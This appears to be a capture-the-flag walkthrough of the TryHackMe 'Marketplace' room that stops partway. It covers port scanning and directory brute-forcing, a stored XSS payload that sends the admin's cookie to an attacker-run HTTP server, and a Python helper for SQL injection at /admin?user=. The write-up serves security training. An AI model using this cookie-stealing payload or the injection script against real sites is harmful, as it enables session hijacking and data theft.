# The Marketplace (THM)

- https://tryhackme.com/room/marketplace
- March 25 , 2023
- medium

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack nginx 1.19.2
32768/tcp open  http    syn-ack Node.js (Express middleware)
```

### HTTP

- `login` page -> try to enter default credentials like admin:admin -> user not found
- signup page -> create an account



- it may be express server
- in new directory, there is an upload field but it is disable (may be at frontend)



- remove the disabled and try to upload some image file
- but the upload doesn't work from UI interface



- directory brute forcing with ffuf

```
admin -> 403
images -> 301
messages -> 302
stylesheets -> 301
```
- from web crawler found

```
contact/jake
report/1
```
- nothing special in these routes
- check the cookie and it is JWT 



- temper with jwt's values such as `admin`, `userId`, `username` and not success
- as the room's tag contains `xss` and try xss



- it is vulnerable to stored xss



- there is a report route which is known from crawling and which may send message to admin



- try to steal admin's cookie by adding payload at `new` page

- create a python server at local machine at port 8888 

```
python -m http.server 8888
```
- enter a payload like this 
```
<script>document.location="http://$TUN0:8888?c="+document.cookie</script>
```
- get request to `item/5` (for me) and check whether the payload is working
  


- it works for own cookie and try to send it to admin 



- report this 
- one cookie get from request to our server 



- replace this with our cookie and we become admin for this site



- there is also sqli vulnerability at `/admin?user=` 



- I write a python script for easy injection like this

```python
import requests
import re
import sys

inject = sys.argv[1]
url = f"http://$IP/admin?user={inject}"
token = "ADMIN_COOKIE_HERE"
headers = {
    "Cookie": f"token={token}"
}
r = requests.get(url, headers=headers)
result = re.findall(r'<h2>(.*)</h2>', r.text)
# print(r.text)
print(result)
```



- there are four columns


## User Access

## Root Access
